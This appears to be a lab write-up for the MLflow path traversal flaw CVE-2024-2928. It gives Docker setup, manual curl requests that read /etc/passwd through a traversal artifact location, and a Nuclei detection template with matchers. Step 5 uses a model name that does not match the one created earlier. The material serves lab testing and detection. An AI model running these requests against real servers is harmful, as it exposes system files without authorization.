 

# CVE-2024-2928 - MLflow < 2.11.3 - Path Traversal

## Description

MLflow versions prior to `2.11.3` are vulnerable to a **Path Traversal** vulnerability due to improper handling of URI fragments in artifact locations. An attacker can exploit this to read arbitrary files from the server, including sensitive files like `/etc/passwd`.


## References:

* [NVD CVE Details](https://nvd.nist.gov/vuln/detail/CVE-2024-2928)
* [Exploit Code](https://github.com/nuridincersaygili/CVE-2024-2928/blob/main/CVE-2024-2928.py)
* [Nuclei Official Template](https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2024/CVE-2024-2928.yaml)


## Lab Setup

> Requires Docker installed

```bash
docker-compose up -d
```

The vulnerable MLflow application will run on:

```bash
http://<your-docker-ip>:5000
```


## Nuclei Command

```bash
nuclei -u http://192.168.1.172:5000 -t CVE-2024-2928.yaml
```

![6](https://github.com/user-attachments/assets/b106e672-0357-401a-9f54-a1a0dce74560)


# Exploitation Steps (Manual)

1. Create experiment with artifact location as /etc/:
```
curl -s -X POST http://192.168.1.172:5000/ajax-api/2.0/mlflow/experiments/create \
  -H "Content-Type: application/json" \
  -d '{
        "name": "exploit123",
        "artifact_location": "http:///#/../../../../../../../../../../../../../..//etc/"
      }'
```

 - You should get experiment_id: 7 (for example)

![1](https://github.com/user-attachments/assets/a5775a67-5c5c-49c1-8dd3-dcdeaa047a22)


2. Create run: (experiment_id request according change)

```
curl -s -X POST http://192.168.1.172:5000/api/2.0/mlflow/runs/create \
  -H "Content-Type: application/json" \
  -d '{"experiment_id": "7"}'
```
 - Note the run_id returned. Let's say: 3cfc250090b246b68f34fb2dfa42ba0e

![2](https://github.com/user-attachments/assets/a333cf1a-ee4e-45c5-80a7-bf7fb56859ea)


3. Register model:

```
curl -s -X POST http://192.168.1.172:5000/ajax-api/2.0/mlflow/registered-models/create \
  -H "Content-Type: application/json" \
  -d '{"name": "exploit123"}'
```

![3](https://github.com/user-attachments/assets/b4ce8dc5-9988-4e2a-863e-6be97f0d65c0)


4. Create model version using directory as source: (Chage run_id according to request)

```
curl -s -X POST http://192.168.1.172:5000/ajax-api/2.0/mlflow/model-versions/create \
  -H "Content-Type: application/json" \
  -d '{
        "name": "exploit123",
        "run_id": "3cfc250090b246b68f34fb2dfa42ba0e",
        "source": "file:///etc/"
      }'
```

 - This should now succeed because /etc/ matches the artifact path.

![4](https://github.com/user-attachments/assets/de0fc4dd-d916-4abf-a868-581c8d01f4a6)


5. Fetch /etc/passwd

```
curl -s "http://192.168.1.172:5000/model-versions/get-artifact?path=passwd&name=exploit1234&version=1"
```

![5](https://github.com/user-attachments/assets/ebe32ed1-2ad8-48c9-b316-c8a73fcf3b1a)


# Steps to Write Nuclei Template

### **HTTP Requests**

```yaml
http:
  - raw:
      - |
        POST /ajax-api/2.0/mlflow/experiments/create HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/json

        {"name": "{{randstr}}", "artifact_location": "http:\/\/\/#\/..\/..\/..\/..\/..\/..\/..\/..\/..\/..\/..\/..\/..\/..\/etc\/"}
```

🔹 **Creates a new experiment** in MLflow.

🔹 The `"artifact_location"` includes **directory traversal** using `../../../` to reach `/etc/`.



```yaml
      - |
        POST /api/2.0/mlflow/runs/create HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/json

        {"experiment_id": "{{EXPERIMENT_ID}}"}
```

🔹 Creates a **run** under the experiment.

🔹 Uses the ID extracted from the first request (`EXPERIMENT_ID`).


```yaml
      - |
        POST /ajax-api/2.0/mlflow/registered-models/create HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/json

        {"name": "{{randstr}}"}
```

🔹 Creates a **registered model**. The name is randomly generated.


```yaml
      - |
        POST /ajax-api/2.0/mlflow/model-versions/create HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/json

        {"name": "{{randstr}}", "run_id": "{{RUN_ID}}", "source": "file:///etc/"}
```

🔹 Registers a **model version** using a `file:///etc/` path — aiming to fetch files from the server filesystem.

🔹 Uses `run_id` extracted earlier.


```yaml
      - |
        GET /model-versions/get-artifact?path=passwd&name={{randstr}}&version=1 HTTP/1.1
        Host: {{Hostname}}
```

🔹 **Final payload** to extract the actual file `/etc/passwd` using `get-artifact`.

🔹 `passwd` is passed as the path argument to download sensitive file content.


### **Matchers (Detecting Success)**

```yaml
matchers-condition: and
matchers:
  - type: regex
    part: body_5
    regex:
      - "root:.*:0:0:"
```

 Checks if `/etc/passwd` file content is present by matching typical `/etc/passwd` lines like `root:x:0:0:`.

```yaml
  - type: word
    part: header_5
    words:
      - "filename=passwd"
      - "application/octet-stream"
    condition: and
```

 Ensures server responded with:

* A downloadable file named `passwd`
* Content type is `application/octet-stream`


```yaml
  - type: status
    status:
      - 200
```

 Confirms HTTP 200 (OK) response.


### **Extractors (Capturing Dynamic Values)**

```yaml
  - type: json
    part: body_1
    name: EXPERIMENT_ID
    group: 1
    json:
      - '.experiment_id'
    internal: true
```

 Extracts `experiment_id` after the experiment creation.

```yaml
  - type: json
    part: body_2
    name: RUN_ID
    group: 1
    json:
      - '.run.info.run_id'
    internal: true
```

Extracts `run_id` from the run creation response.





